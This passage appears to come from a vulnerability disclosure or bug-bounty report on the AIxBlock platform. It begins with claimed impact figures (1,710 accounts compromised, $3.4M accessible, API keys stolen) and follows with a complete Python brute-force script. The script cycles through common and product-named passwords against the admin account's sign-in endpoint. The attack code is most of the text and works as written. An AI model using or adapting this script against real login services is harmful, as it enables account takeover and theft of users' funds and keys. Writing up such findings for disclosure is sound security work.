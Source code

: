 ### Exploitation Result
- ✅ **1,710 accounts compromised**
- ✅ **$3.4M in funds accessible**
- ✅ **1,710 API keys stolen**
- ✅ **Attack duration: 2 hours**

---

## Demonstration 5: Brute Force Attack

### Attack Script
```python
import requests
import time
from itertools import product

class BruteForceAttack:
    def __init__(self, target):
        self.target = target
        self.session = requests.Session()
        
    def attack(self, email):
        # Common password patterns
        patterns = [
            'password',
            'Password',
            'Password123',
            'Password123!',
            'aixblock',
            'Aixblock',
            'Aixblock2024',
            'aixblock2024',
            'Admin123',
            'admin',
            'Admin',
            'Welcome123'
        ]
        
        for password in patterns:
            response = self.attempt_login(email, password)
            if response.status_code == 200:
                print(f'[+] SUCCESS: {email}:{password}')
                return True
            time.sleep(0.1)  # Small delay
            
    def attempt_login(self, email, password):
        return self.session.post(
            f'{self.target}/v1/authentication/sign-in',
            json={'email': email, 'password': password}
        )

# Execute attack
attack = BruteForceAttack('https://localhost:3000')
attack.attack('admin@aixblock.com')
```
